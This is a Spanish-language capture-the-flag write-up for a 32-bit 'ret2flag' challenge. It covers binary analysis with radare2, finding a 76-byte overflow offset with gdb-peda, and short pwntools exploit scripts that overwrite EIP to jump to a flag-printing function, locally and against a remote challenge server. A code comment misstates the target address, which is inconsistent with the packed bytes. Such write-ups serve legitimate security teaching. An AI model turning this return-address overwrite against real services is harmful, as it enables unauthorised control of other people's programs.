 ```yaml
---
title: Ret2Flag-CTF-Q4SB
date: 2020-07-25 11:58:47 +07:00
---
```


Inicialmente nos entregan lo siguiente:

![ctf](/assets/img/1.png)

Donde nos entregan el binario ret2flag el cual procedemos a analyzar con r2.

![ret2flag](/assets/img/2.png)

Siguiendo la teoria de ret2win , debemos encontrar una función que retornar para cuando tengamos el control de EIP dentro del binario , por lo que encontramos la funcion sym.flag la cual hace lo siguiente:

![ret2flag2](/assets/img/3.png)

Donde llama la función sym.imp.system la cual de forma interna hace un cat a flag.txt. (esto lo veremos mas adelante)

Como ya tenemos la función que retornar , necesitamos saber con cuantos bytes el programa obtiene un crash para controlar EIP.

Ocupe gbd con peda para generar un pattern y obtener la cantidad de bytes necesarias.

![ret2flag3](/assets/img/4.png)

Generando un patron de 200 bytes, ejecutaremos el binario para ver donde empezamos a pisar EIP.

![ret2flag4](/assets/img/5.png)

Nos entrega que el buffer del binario son 76 bytes , entonces como ya tenemos la funcion donde debemos saltar la cual es sym.flag , solamente nos queda codear el exploit.

Codigo:

```python
#/usr/bin/python3
from pwn import *
#Ejecutar binario
p=process('./ret2flag')
#Bytes para el crash 76
payload="A"*76
#Direccion de la memoria de sym.flag 0x0840852d se debe entregar en little endian
payload+="\x2d\x85\x04\x08"
#Esperamos el mensaje de la ejecucion del binario para enviar el payload
p.recvuntil('Esta es la ultima vez en 32!')
#Enviamos el payload
p.sendline(payload)
#Recibimos la respuest de forma interactiva
p.interactive()
```

Lo ejecutamos de forma local y obtenemos que flag.txt no existe en nuestro dispositivo.

![ret2flag5](/assets/img/6.png)

Por lo que ahora ya sabemos que funciona, lo haremos remoto solo le cambiamos la linea de donde obtiene el binario para esto de la siguiente forma.

```python
#/usr/bin/python3
from pwn import *
#Ejecutar binario desde el host remoto
p=remote('165.227.83.238',8888)
#Bytes para el crash 76
payload="A"*76
#Direccion de la memoria de sym.flag 0x0840852d se debe entregar en little endian
payload+="\x2d\x85\x04\x08"
#Esperamos el mensaje de la ejecucion del binario para enviar el payload
p.recvuntil('Esta es la ultima vez en 32!')
#Enviamos el payload
p.sendline(payload)
```

Lo ejecutamos y obtenemos nuestra flag.

![ret2flag6](/assets/img/7.png)

Flag: Q4SB{n0_m4s_32_b1ts_si_ahor4_viene_arm}
